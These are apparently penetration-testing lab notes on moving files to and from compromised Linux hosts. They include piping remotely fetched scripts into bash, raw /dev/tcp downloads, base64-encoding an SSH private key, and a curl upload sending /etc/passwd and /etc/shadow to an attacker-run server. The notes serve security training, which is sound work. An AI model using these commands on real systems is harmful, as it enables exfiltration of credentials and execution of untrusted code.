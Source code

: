 
## Base64 Encoding / Decoding
#### Pwnbox - Check File MD5 hash
```shell-session
$ md5sum id_rsa
```
```shell-session
$ cat id_rsa |base64 -w 0;echo
```
```shell-session
$ echo -n 'todecode' | base64 -d > id_rsa
```

## Web Downloads with Wget and cURL
#### Download a File Using wget
```shell-session
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
#### Download a File Using cURL
```shell-session
$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
## Fileless Attacks Using Linux
#### Fileless Download with cURL
Let's take the `cURL` command we used, and instead of downloading LinEnum.sh, let's execute it directly using a pipe.
```shell-session
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
#### Fileless Download with wget
```shell-session
$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.
#### Connect to the Target Webserver
```shell-session
$ exec 3<>/dev/tcp/10.10.10.32/80
```
#### HTTP GET Request
```shell-session
4rn4u@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
#### Print the Response
```shell-session
$ cat <&3
```

## SSH Downloads
`SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

`SCP` is very similar to `copy` or `cp`, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.
#### Enabling the SSH Server
```shell-session
$ sudo systemctl enable ssh
```
#### Starting the SSH Server
```shell-session
$ sudo systemctl start ssh
```
#### Checking for SSH Listening Port
```shell-session
$ netstat -lnpt
```
#### Linux - Downloading Files Using SCP
```shell-session
$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload Operations
## Web Upload
#### Pwnbox - Start Web Server
```shell-session
$ sudo python3 -m pip install --user uploadserver
```
#### Pwnbox - Create a Self-Signed Certificate
```shell-session
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
#### Pwnbox - Start Web Server
```shell-session
$ mkdir https && cd https
```
```shell-session
$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
#### Linux - Upload Multiple Files
```shell-session
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
#### Linux - Creating a Web Server with Python3
```shell-session
$ python3 -m http.server
```
#### Linux - Creating a Web Server with Python2.7
```shell-session
$ python2.7 -m SimpleHTTPServer
```
#### Linux - Creating a Web Server with PHP
```shell-session
$ php -S 0.0.0.0:8000
```
#### Linux - Creating a Web Server with Ruby
```shell-session
$ ruby -run -ehttpd . -p8000
```
#### Download the File from the Target Machine onto the Pwnbox
```shell-session
$ wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload
We may find some companies that allow the `SSH protocol` (TCP/22) for outbound connections, and if that's the case, we can use an SSH server with the `scp` utility to upload files. Let's attempt to upload a file to the target machine using the SSH protocol.
```shell-session
$ scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```